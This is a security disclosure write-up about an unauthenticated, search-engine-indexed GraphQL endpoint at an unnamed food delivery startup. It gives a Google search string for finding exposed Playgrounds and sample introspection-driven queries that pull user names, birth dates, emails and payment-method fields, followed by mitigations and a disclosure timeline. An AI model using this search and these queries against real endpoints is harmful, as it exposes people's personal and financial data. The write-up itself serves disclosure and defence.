

# Overview

GraphQL is an exciting technology that simplifies how developers load data from back-end services and thousands of organizations are realizing the simplicity and power GraphQL enables for new applications. If and when a security issue does occur, the simplicity and power of GraphQL helps attackers to gain control of significantly more confidential data far faster than ever before.

A venture-backed startup in the food delivery space had a DigitalOcean server hosting a GraphQL Endpoint. This endpoint had been indexed by search engines and was hosted in development mode with both the GraphQL Playground and Schema introspection enabled.

I have chosen to not disclose the name of the organization for this particular vulnerability as I generally avoid naming businesses with fewer than 100 employees.

# Locating this issue

This particular vulnerable server was found by searching google for a piece of text that only exists in GraphQL playgrounds.

Here's a screenshot of a server hosting the GraphQL Playground



More specifically, a simple google search for `"Hit the Play Button to get a response here"` revealed the exposed server.


# Note about GraphQL

The beauty of GraphQL is that you can easily bring in data related to an entity you are querying for. In this vulnerability we were able to write a query that gets the users of the application:

```
{
  users(first:1000) {
    username
    firstName
    lastName
  }
}
```

Once we confirmed we'd be able to run that query we were able to investigate the schema to explore additional user-related information that might be valuable like payment method info:

```
    paymentMethods {
      routingNumberLast
      cvv
      image
      last4
      vendor
      type
    }
```

Each additional piece of information can just be added to the query and the GraphQL gateway will stitch together the perfect data dump of sensitive customer information.

# Details

After investigating the schema it appeared as though there is nothing preventing the browsing of:

* Registered users
    - Full names
    - Date of Birth
    - Unread notifications
    - Scheduled Meals
    - Payment Failures
    - Emails
    - Company Information
    - Credit Card info including the last 4 digits of their payment method
    - Bank account info including routing number
* Restaurant Info
* Payment Gateways
    - Auth Tokens


Sample Query:

```
{
  users(first:1000) {
    id
    metadata
    bio
    title
    username
    firstName
    lastName
    updatedAt
    createdAt
    productSubscriptions{
      name
      description
    }
    failedPayments {
      comment
      response
    }
    groups {
      name
    }
    emails {
      address
    }
    company {
      name
    }
    site {
      name
    }
    unreadNotifications {
      title
      description
    }
    dateOfBirth
    email
    paymentMethods {
      routingNumberLast
      cvv
      image
      last4
      vendor
      type
    }
  }
}
```

# CWE-284: Improper Access Control

This is an example of not implementing authentication on a GraphQL endpoint.

The following actions would have prevented this issue from occuring: 
* If this GraphQL endpoint is not utilized by the user's browser to render content it should not be connected to the internet with a public IP but instead should only be accessible by necessary internal services
* GraphQL Authorization should be added at the gateway level
* If there are underlying services involved, those services should validate the user's request token to ensure the user should see the required data
* GraphQL Contracts could have limited the exposure of data through the public facing GraphQL gateway
* Positive and Negative authorization-related integration and end to end tests would have caught the issue 
* Tools like https://github.com/zapier/apollo-server-integration-testing make it easier to automated integration tests that ensure the presence of an authorization token

# Disclosure

Apr 23rd: Contacted via public info email address to disclose the issue.

Apr 23rd: Response back indicating issue has been fixed.

Apr 24th: Email to confirm they fully closed the issue.

Apr 27th: Response indicating that all issues provided in the disclosure were resolved.
